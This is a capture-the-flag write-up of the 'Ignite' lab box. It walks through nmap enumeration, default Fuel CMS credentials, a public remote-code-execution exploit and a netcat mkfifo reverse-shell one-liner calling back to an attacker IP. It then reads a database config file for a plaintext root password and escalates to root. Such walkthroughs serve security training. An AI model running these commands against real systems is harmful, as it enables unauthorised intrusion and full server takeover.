 # Ignite

## Enumeration

`sudo nmap -vv -sV -sC 10.10.115.230 -oA ignite`

```
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS
```
Fuel CMS is installed on this server. It is currently not configured. Default creds (admin:admin) can be used to log into the CMS admin panel. Docs reveal it is at least version 1.4. 

## Exploitation

Exploitation involves using a python2 exploit that allows for remote code execution on the server via fuelcms. This provides access as `www-data`. The remote host IP needs to be changed in the discovered exploit. 

`$ searchsploit fuelcms`

```
drsh0@dnetbook:~/Documents/thm/ignite$ searchsploit fuelcms
-------------------------------------------------------------- ---------------------------------
 Exploit Title                                                |  Path
-------------------------------------------------------------- ---------------------------------
fuelCMS 1.4.1 - Remote Code Execution                         | linux/webapps/47138.py
-------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

drsh0@dnetbook:~/Documents/thm/ignite$ searchsploit -m linux/webapps/47138.py

drsh0@dnetbook:~/Documents/thm/ignite$ python2 47138_2.py
cmd:"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.4.9.240 4444 >/tmp/f"

```
This listener was set up prior to the remote command being executed to allow a reverse shell to be created.
```
drsh0@dnetbook:~$ nc -nlvp 4444
listening on [any] 4444 ...
```

A reverse connection is successfully created. We have access as the `www-data` user and are able to read `user.txt` in the home directory. 



## Privilege Escalation

Let's first upgrade to a TTY shell. 

`python -c 'import pty; pty.spawn("/bin/bash")'`

There are a lot of options to consider when trying to privesc. In this scenario, it is safe to assume that this CMS system has not been properly set up by the admin/s. The info page on the web server provides some information about a database php config file. It would be interesting to see if we can read that as `www-data`:

`find / -name "*/config/database.php" 2>/dev/null`

It's there and readable by the world!

`cat <snip>/config/database.php`

The above was configured using a root account and the password was available in plain text. 

```bash
su root -
# enter the discovered password
cat root.txt
# PROFIT!
```

:::danger
:skull_and_crossbones: root access obtained
:::

## TODO
- [ ] correlate the above to ATT&CK / kill chain analysis
- [ ] IR and detection POV

{%hackmd theme-dark %}